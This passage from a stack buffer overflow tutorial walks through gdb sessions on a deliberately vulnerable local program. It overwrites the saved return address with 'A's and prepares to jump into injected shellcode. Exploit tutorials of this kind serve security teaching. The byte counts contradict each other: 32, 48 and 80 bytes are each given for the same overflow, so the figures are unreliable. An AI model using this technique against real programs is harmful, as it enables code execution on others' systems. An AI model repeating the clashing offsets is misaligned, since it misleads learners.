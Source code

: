 Breakpoint 2, 0x000000000040053c in go (data=0x7fffffffe4b4 "myname")
8	}
(gdb) x/i $rip
=> 0x40053c :	retq   
(gdb) x/gx $rsp
0x7fffffffe0c8:	0x000000000040055f
(gdb) si
main (argc=2, argv=0x7fffffffe1c8) at oldskool.c:12
12	}
(gdb) x/gx $rsp
0x7fffffffe0d0:	0x00007fffffffe1c8
(gdb) x/i $rip
=> 0x40055f :	leaveq 
(gdb) quit

-----------------------------------

We set a breakpoint right before the go() function returns and continue 
execution. The program stops right before executing the "retq" instruction.
We see that the stack pointer (rsp) still points to the address inside of main
that the program is supposed to jump to after finishing the execution of go().
The retq instruction is executed, and we see that the program has indeed popped
the return address off the stack and has jumped to it. Now we are going to 
overwrite this address by supplying more than 32 bytes of data, using perl:

-----------------------------------
$ gdb -q ./oldskool
Reading symbols from /home/me/.hax/vuln/oldskool...done.
(gdb) run `perl -e 'print "A"x48'`
Starting program: /home/me/.hax/vuln/oldskool `perl -e 'print "A"x48'`

Program received signal SIGSEGV, Segmentation fault.
0x000000000040059c in go (data=0x7fffffffe49a 'A' )
12	}
(gdb) x/i $rip
=> 0x40059c :	retq   
(gdb) x/gx $rsp
0x7fffffffe0a8:	0x4141414141414141
-----------------------------------

We use perl to print a string of 80 x "A" on the command line, and pass that as
an argument to our example program. We see that the program crashes when it 
tries to execute the "retq" instruction inside the go() function, since it
tries to jump to the return address which we have overwritten with "A"s (0x41).
Note that we have to write 80 bytes (64 + 8 + 8 ) because pointers are 8 bytes
long on 64 bit machines, and there is actually another stored pointer between
our name buffer and the Saved Instruction Pointer.

Okay, so now we can redirect the execution path to any location we want. How can
we use this to make the program do our bidding? If we place our own machine code
instructions inside the name[] buffer and then overwrite the return address 
with the address of the beginning of this buffer, the program will continue
executing our instructions (or "shellcode") after it's done executing the go 
function. So we need to create a shellcode, and we need to know the address of
the name[] buffer so we know what to overwrite the return address with. I will
not go into creating shellcode as this is a little bit outside the scope of this
tutorial, but will instead provide you with a shellcode that prints a message to
the screen. We can determine the address of the name[] buffer like this:
